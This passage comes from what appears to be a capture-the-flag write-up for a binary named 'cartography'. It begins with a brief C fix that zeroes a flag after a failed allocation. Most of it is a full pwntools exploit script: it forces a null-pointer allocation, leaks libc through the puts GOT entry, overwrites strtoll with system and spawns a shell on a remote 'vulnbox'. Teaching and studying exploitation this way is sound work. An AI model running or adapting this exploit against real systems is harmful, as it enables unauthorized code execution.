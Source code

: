 Something like this is missing:

```c
if (__ptr == NULL) {
	printf("Cannot allocate memory\n");
	local_108 = 0; # very important
} else {
	puts("Sector created!");
}
```

> `local_108` must be zero'd or all the other logic will still permit the exploit.


## Attack

Given all the analysis, the exploit is rather simple:

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./cartography')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('libc-database/db/libc6_2.28-10_amd64.so')

#p = process(['stdbuf','-i0','-o0','-e0',binary.path])
p = remote('vulnbox', 6666)

# null pointer
p.sendlineafter('>','0')
p.sendlineafter('Enter the sector\'s size:\n',str(2**48 - 1))

# leak libc
p.sendlineafter('> ','2')
p.sendlineafter('Where do you want to read?\n',str(binary.got['puts']))
p.sendlineafter('How much do you want to read?\n','8')
puts = u64(p.recv(8))
log.info('puts: ' + hex(puts))
baselibc = puts - libc.symbols['puts']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc

# strtoall -> system
p.sendlineafter('> ','1')
p.sendlineafter('Where do you want to write?',str(binary.got['strtoll']))
p.sendlineafter('How much do you want to write?\n','8')
p.sendlineafter('Enter your sensor data:',p64(libc.symbols['system']))

# get a shell
p.sendlineafter('>','0')
p.sendlineafter('Enter the sector\'s size:\n','/bin/sh')
p.interactive()
```
